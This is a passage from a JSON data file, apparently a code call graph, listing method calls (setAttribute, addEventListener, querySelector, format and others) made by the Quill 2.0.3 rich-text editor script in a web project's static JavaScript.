{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "direction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "link"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "prompt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "list"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildPicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "togglePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "togglePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "escape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "togglePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "escape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildPicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "escape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "selectItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listenDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "extendToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildButtons"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildPickers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formula"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "edit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "image"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "upload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "click"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "video"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "edit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restoreFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "edit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restoreFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restoreFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertEmbed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "extendToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildButtons"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildPickers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "link"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "edit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "edit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restoreFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", 